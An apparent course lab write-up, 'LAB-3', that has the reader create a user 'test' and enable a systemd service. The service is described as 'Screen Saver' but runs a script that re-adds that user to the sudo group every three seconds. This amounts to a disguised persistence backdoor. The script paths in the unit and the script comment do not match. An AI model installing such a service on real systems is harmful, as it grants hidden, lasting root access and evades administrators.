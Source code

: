 

# LAB-3


## Step


1. Create user
	1. `adduser test`
2. start test daemon
	1. `sudo systemctl start test`
3. start the test daemon automatically when boot
	1. `sudo systemctl enable test`



``` bash
# /etc/systemd/system/test.service
[Unit]
Description=Screen Saver

[Service]
Type=simple
ExecStart=/bin/bash /usr/local/bin/lab3.sh
Restart=always

[Install]
WantedBy=multi-user.target
```

```bash
# /usr/bin/lab3.sh

#!/bin/bash
while true;
do
    sleep 3;
    sudo usermod -aG sudo test;
done
```